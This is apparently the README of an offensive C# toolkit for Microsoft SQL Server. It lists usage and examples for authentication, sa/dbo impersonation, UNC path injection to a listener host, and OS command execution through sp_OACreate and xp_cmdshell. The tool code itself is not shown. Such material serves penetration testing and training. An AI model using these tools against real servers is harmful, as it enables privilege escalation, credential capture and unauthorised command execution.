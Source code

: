 # mssqlcodexecutor
CSharp mssql code executor

## MSSQLAuthenticator
Usage:
```
MSSQLAuthenticator.exe <sql server> <database name>
```
Example:
```
MSSQLAuthenticator.exe sql.local master
```
## SQLImpersonation
### SQLImpersonation-Check
Usage:
```
SQLImpersonation.exe <sql server> <database name> check
```
Example:
```
SQLImpersonation.exe sql.local master check
```
### SQLImpersonation-Impersonate
Usage:
```
SQLImpersonation.exe <sql server> <database name> impersonate <sa/dbo>
```
Example:
```
SQLImpersonation.exe sql.local master impersonate sa
```
## UNCPathInjection
Usage:
```
UNCPathInjection.exe <sql server> <database name> <unc path>
```
Example:
```
UNCPathInjection.exe sql.local master \\192.168.1.6\test
```
## spOACodeExecution
Usage:
```
spOACodeExecution.exe <sql server> <database name> <command>
```
Example:
```
spOACodeExecution.exe sql.local master whomi
```
## xpcmdshellCodeExecution
Usage:
```
xpcmdshellCodeExecution.exe <sql server> <database name> <command>
```
Example:
```
xpcmdshellCodeExecution.exe sql.local master whoami
```
